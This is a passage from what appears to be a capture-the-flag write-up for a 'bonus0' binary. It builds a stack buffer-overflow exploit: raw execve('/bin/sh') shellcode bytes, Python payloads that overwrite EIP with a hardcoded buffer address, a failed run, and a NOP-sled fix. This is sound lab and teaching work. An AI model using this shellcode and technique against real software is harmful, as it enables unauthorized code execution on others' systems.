 ### 4.3. Write the shellcode

We will write a shellcode that will execute a shell.
We will use the following shellcode:
```c
execve("/bin/sh")
```
In machine language:
```c
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```
We will write our command in a file.
```bash
python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"' > /tmp/first
```

### 4.4. Overwrite the EIP

We will overwrite the EIP with the address of the buffer.
The address of the buffer is `0xbfffe680`, `\x80\xe6\xff\xbf` in little-endian.
We know that the offset is 9 bytes, the address of the buffer has 4 bytes, so we need to add 7 bytes to reach the EIP.
```bash
python -c 'print "A" * 9 + "\x80\xe6\xff\xbf" + "A" * 7' > /tmp/second
```

### 4.5. Run the exploit

We will run the program with the first input as our shellcode, and the second input as the overwrite of the EIP.
```bash
(cat /tmp/first; cat /tmp/second; cat) | ./bonus0
 - 
 - 
j
 X�Rh//shh/bin��1��AAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���
whoami
Illegal instruction (core dumped)
```

We can see that the program crashes with an illegal instruction.
`Illegal instruction` means that the program tried to execute a not valid instruction, or try to access a not valid memory address.

Maybe the address of the buffer is not really exact.
So we will add some `NOP` instructions before the shellcode to make sure that the shellcode is executed. If the good address is after the address we used, the `NOP` instructions will be executed, and the shellcode will be executed.
`NOP` is `0x90` in machine language.
```bash
python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"' > /tmp/first
```
